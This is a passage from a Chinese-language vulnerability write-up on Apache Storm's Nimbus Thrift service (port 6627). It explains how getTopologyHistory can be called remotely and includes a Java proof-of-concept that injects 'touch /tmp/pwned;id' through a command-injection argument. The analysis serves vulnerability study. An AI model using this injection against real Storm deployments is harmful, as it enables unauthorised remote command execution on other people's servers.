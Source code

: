 至此已经差不多理清了 6627 端口对应的服务的情况，也就是说，因为 6627 端口绑定了 Nimbus 对象，所以可以通过对 6627 端口进行远程调用 getTopologyHistory 方法。

![](assets/1711960555-38c687504d8373535e264ef645b219da.png)

#### **4、关于如何构造 POC**

根据以上漏洞分析不难得出只需要连接 6627 端口，并发送相应字符串即可。已经确定了 6627 端口服务存在的漏洞，可以通过源代码中的的测试用例进行快速测试，避免了需要大量翻阅文档构造 poc 的过程。官方 poc 如下

```plain
import org.apache.storm.utils.NimbusClient;
import java.util.ArrayList;
import java.util.HashMap;
import java.util.List;

public class ThriftClient {
    public static void main(String[] args) throws Exception {
        HashMap config = new HashMap();
        List<String> seeds = new ArrayList<String>();
        seeds.add("localhost");
        config.put("storm.thrift.transport", "org.apache.storm.security.auth.SimpleTransportPlugin");
        config.put("storm.thrift.socket.timeout.ms", 60000);
        config.put("nimbus.seeds", seeds);
        config.put("storm.nimbus.retry.times", 5);
        config.put("storm.nimbus.retry.interval.millis", 2000);
        config.put("storm.nimbus.retry.intervalceiling.millis", 60000);
        config.put("nimbus.thrift.port", 6627);
        config.put("nimbus.thrift.max_buffer_size", 1048576);
        config.put("nimbus.thrift.threads", 64);
        NimbusClient nimbusClient = new NimbusClient(config, "localhost", 6627);

        // send attack
        nimbusClient.getClient().getTopologyHistory("foo;touch /tmp/pwned;id ");
    }
}
```

在测试类 org/apache/storm/nimbus/NimbusHeartbeatsPressureTest.java 中，有以下代码针对 6627 端口的测试

![](assets/1711960555-ac35bb6f387b9945d1ced5058aa00739.png)

可以看到实例化过程需要传入配置参数，远程地址和端口。配置参数如下，构造一个 config 即可。

![](assets/1711960555-a2805a43c32223a89507c2f4986555bb.png)

并且通过 getClient ().xxx () 对相应的方法进行调用，如下图中调用 sendSupervisorWorkerHeartbeats

![](assets/1711960555-229044ad6400f11669ce75f622006371.png)

且与 getTopologyHistory 一样，该方法同样为 Nimbus 类的成员方法，因此可以使用同样的手法对 getTopologyHistory 进行远程调用

![](assets/1711960555-0887d2d47e65cec78e714086a4445b75.png)
